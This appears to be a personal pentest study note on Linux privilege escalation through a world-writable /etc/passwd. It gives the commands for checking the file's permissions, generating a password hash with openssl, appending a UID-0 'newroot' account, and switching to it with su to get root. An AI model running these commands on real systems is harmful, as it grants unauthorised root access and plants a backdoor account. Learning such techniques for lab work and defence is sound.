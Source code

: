 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

The /etc/passwd historically contained user password hashes.

For backwards compatibility, if the second field of a user row in /etc/passwd contains a password hash, it takes precedent over the hash in /etc /shadow.

If we can write to /etc/passwd, we can easily enter a known password hash for the root user, and then use the su command to switch to the root user.

Alternatively, if we can only append to the file, we can create a new user but assign them the root user ID (0). This works because Linux allows multiple entries for the same user ID, as long as the usernames are different.

The root account in /etc/passwd is usually configured like this:

`root:x:0:0:root:/root:/bin/bash`

The “x” in the second field instructs Linux to look for the password hash in the /etc/shadow file.

In some versions of Linux, it is possible to simply delete the “x”, which Linux interprets as the user having no password:

`root::0:0:root:/root:/bin/bash`

```bash - target
./lse.sh -l 1 -i | more
```

![[Pasted image 20211230133209.png]]

1. Check the permissions of the /etc/passwd file:

```bash - target
ls -l /etc/passwd
```

`-rw-r--rw- 1 root root 951 May 13 2017 /etc/passwd`

Note that it is world writable.

```bash - target
echo "newroot:$(openssl passwd password):0:0:root:/root:/bin/bash" >> /etc/passwd
```

or 

2. Generate a password hash for the password “password”

using openssl :

```bash - kali
openssl passwd "password"
```

`L9yLGxncbOROc`

3. Edit the /etc/passwd file and enter the hash in the second field of the root user row:
4. 
> newroot:L9yLGxncbOROc:0:0:root:/root:/bin/bash

4. Use the su command to switch to the root user:

```bash - target
su newroot
```

```bash - target
password
```

```bash - target
id
```

> uid=0(root) gid=0(root) groups=0(root)

5. Alternatively, append a new row to /etc/passwd to create an alternate root user (e.g. newroot):

```bash
echo "newroot:L9yLGxncbOROc:0:0:root:/root:/bin/bash" >> /etc/passwd
```

6. Use the su command to switch to the newroot user:

```bash - target
su newroot
```

```bash - target
password
```

```bash - target
id
```

> uid=0(root) gid=0(root) groups=0(root)


Last updated: `$= dv.current().file.mtime.toFormat("MMMM dd, yyyy 'at' HH:mm")`
